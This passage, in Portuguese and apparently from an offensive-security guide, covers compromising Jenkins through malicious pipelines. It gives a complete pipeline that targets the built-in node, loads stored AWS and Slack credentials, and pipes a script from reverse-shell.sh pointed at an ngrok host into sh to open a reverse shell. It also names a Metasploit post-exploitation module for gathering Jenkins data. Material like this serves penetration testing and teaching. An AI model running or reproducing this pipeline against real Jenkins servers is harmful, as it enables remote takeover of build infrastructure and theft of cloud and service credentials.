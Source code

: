 É **especialmente interessante comprometer o Built-In node** porque ele contém informações sensíveis do Jenkins.

Para indicar que você quer **rodar** o **pipeline** no **node built-in do Jenkins**, você pode especificar dentro do pipeline a seguinte configuração:
```bash
pipeline {
agent {label 'built-in'}
```
### Exemplo completo

Pipeline em um agente específico, com um gatilho cron, com variáveis de ambiente de pipeline e de estágio, carregando 2 variáveis em um passo e enviando um reverse shell:
```bash
pipeline {
agent {label 'built-in'}
triggers { cron('H */4 * * 1-5') }
environment {
GENERIC_ENV_VAR = "Test pipeline ENV variables."
}

stages {
stage("Build") {
environment {
STAGE_ENV_VAR = "Test stage ENV variables."
}
steps {
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh PASS
'''
}
}
}

post {
always {
cleanWs()
}
}
}
```
## Pós-Exploração

### Metasploit
```
msf> post/multi/gather/jenkins_gather
```
### Jenkins Secrets
